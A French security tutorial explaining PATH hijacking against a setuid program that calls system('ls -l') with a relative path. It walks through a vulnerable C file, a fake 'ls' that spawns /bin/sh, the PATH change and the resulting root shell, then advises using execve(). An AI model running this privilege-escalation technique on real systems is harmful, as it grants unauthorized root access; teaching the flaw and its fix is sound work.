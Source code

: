 # System()

## I. Introduction
La fonction `system()` de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer, `system()` utilise la variable d'environnement `$PATH`. Il suffit donc d'agir sur cette variable pour faire executer à `system` le mauvais programme.

## II. Pré-requis
* Un programme suid
* L'argument de `system()` n'est pas un chemin absolu.


```{r, engine='bash'}
aas@ubuntu:~$ cat vuln.c
void main()
{
  system("ls -l");
}
```

Le comportement normal de ce programme est le suivant. Notons le suid activé.


```{r, engine='bash'}
aas@ubuntu:~$ ./vuln
total 48
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
-rws--x--x 1 root root 8600 sept. 16 10:07 vuln
-rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
```

## III. Exploitation de la faille
### Création d'un faux programme 'ls' ouvrant un shell.
```{r, engine='bash'}
aas@ubuntu:~$ cat exploit.c 
void main()
{
  char *shell[] = {"/bin/sh",NULL};
  execve(shell[0],shell,NULL);
}
aas@ubuntu:~$ gcc exploit.c -o ls
```


### Modification de $PATH

```{r, engine='bash'}
aas@ubuntu:~$ PATH=.:$PATH
```
On ajoute le repertoire contenant notre faux programme `ls` en première position de la variable `$PATH`

### Execution
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln 
$
```
Pour executer `ls`, `system()` cherche en premier dans notre repertoire courant au lieu de `/bin/`, lance notre faux `ls`, qui lance un shell root puisque notre programme `vuln` est suid.
    
## IV. Protection
Mettre le chemin absolue avec `system()` est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens" noyaux.  
Il faut donc utiliser les fonctions type `execve()` et bannir `System()`.

